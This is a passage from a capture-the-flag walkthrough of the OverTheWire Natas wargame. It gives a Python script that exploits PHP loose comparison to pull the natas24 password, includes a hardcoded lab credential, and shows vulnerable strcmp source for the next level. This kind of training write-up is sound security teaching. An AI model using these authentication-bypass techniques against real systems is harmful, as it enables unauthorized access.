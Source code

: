 this tells us its , loose comparison when `11iloveyou > 10`

Let write full python script

```py
import requests
import re

username = "natas23"
passsowrd = "qjA8cOoKFTzJhtV0Fzvt92fgvxVnVRBj"

url = "http://%s.natas.labs.overthewire.org/"%username

sesssion = requests.Session()
response = sesssion.post(url ,data={"passwd" : "11iloveyou"} ,auth=(username,passsowrd)  )
content = response.text

flag = re.findall("Username: natas24 Password: (.*)</pre>",content)[0]

print("[+] Gotcha ",flag)
```

---

### Natas 24

<img src="img/Pasted image 20240506185624.png" alt="Example Image" width="1080"/>

Pretty same as previous level , let see the source file [view-source](http://natas24.natas.labs.overthewire.org/index-source.html)

```php
<?php    if(array_key_exists("passwd",$_REQUEST)){
        if(!strcmp($_REQUEST["passwd"],"<censored>")){
            echo "<br>The credentials for the next level are:<br>";
            echo "<pre>Username: natas25 Password: <censored></pre>";
        }
        else{
            echo "<br>Wrong!<br>";
        }
    }    // morla / 10111
?>
```
